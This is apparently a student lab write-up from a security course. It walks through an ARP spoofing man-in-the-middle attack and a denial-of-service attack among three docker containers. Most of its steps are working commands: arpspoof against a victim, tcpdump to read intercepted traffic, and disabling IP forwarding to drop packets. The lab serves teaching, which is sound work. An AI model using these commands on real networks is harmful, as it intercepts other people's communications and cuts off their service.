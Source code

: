 # Lab 1: Man-in-the-middle attack (ARP spoofing)

## Cilj zadatka:

Execute a man in the middle (MitM) and a denial of service (DoS) attack using vulnerability of the ARP protocol. We will demonstrate it by using 3 virtual docker computers (two victims: station-1 and station-2 and one attacker: evil-station)

### ARP (Address Resolution Protocol) Spoofing

By spoofing the reply to an ARP request not meant for that member of the network a malicious user can ruin the integrity of the network

![Untitled](Lab%201%20Man-in-the-middle%20attack%20(ARP%20spoofing)%20888ff39d3d1d4066b0cc9b30c5e91e47/Untitled.png)

### Steps:

1. Clone the repository with:

```bash
git clone https://github.com/mcagalj/SRP-2022-23
```

![Files in the cloned repository](Lab%201%20Man-in-the-middle%20attack%20(ARP%20spoofing)%20888ff39d3d1d4066b0cc9b30c5e91e47/Untitled%201.png)

Files in the cloned repository

1. Go to the arp-spoofing folder which has the [start.sh](http://start.sh) and [stop.sh](http://stop.sh) scripts

```bash
cd SRP-2022-23/arp-spoofing/
```

![Files in the arp-spoofing folder](Lab%201%20Man-in-the-middle%20attack%20(ARP%20spoofing)%20888ff39d3d1d4066b0cc9b30c5e91e47/Untitled%202.png)

Files in the arp-spoofing folder

1. Open a Windows Subsystem for Linux (Installation might be required first)
2. We can now run the .sh scripts

```bash
./start.sh
```

![Code of the [start.sh](http://start.sh) script](Lab%201%20Man-in-the-middle%20attack%20(ARP%20spoofing)%20888ff39d3d1d4066b0cc9b30c5e91e47/Untitled%203.png)

Code of the [start.sh](http://start.sh) script

1. Open bash in container station-1

```bash
docker exec -it station-1 bash
```

1. (Optional) Ping station-2 to see if they can see each other

```bash
ping station-2
```

1. Split the terminal and open bash in the container station-2

```bash
docker exec -it station-2 bash
```

1. Use the netcat command to connect station-1 and station-2

```bash
netcat -l 8080
```

```bash
netcat station-2 8080
```

1. Split the terminal again and open bash in the evil-station container (do this twice)

```bash
docker exec -it evil-station bash
```

1. In one of the evil-station terminals start the arp spoofing attack

```bash
arpspoof -i eth0 -t station-1 station-2
```

1. In the other evil-station terminal start listening

```bash
tcpdump -qX host station-1 and not arp and not icmp
```

At this point we have successfully executed a MitM attack and now if we want to start a DoS attack we need to

1. Set the ip_forward variable to 0 with the echo command so the intercepted packets no longer get forwarded to the machine we are pretending to be

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

And that’s it! we have successfully mounted a MitM and DoS attack in our network

After we’re done we can stop our docker containers with

```bash
./stop.sh
```

![Untitled](Lab%201%20Man-in-the-middle%20attack%20(ARP%20spoofing)%20888ff39d3d1d4066b0cc9b30c5e91e47/Untitled%204.png)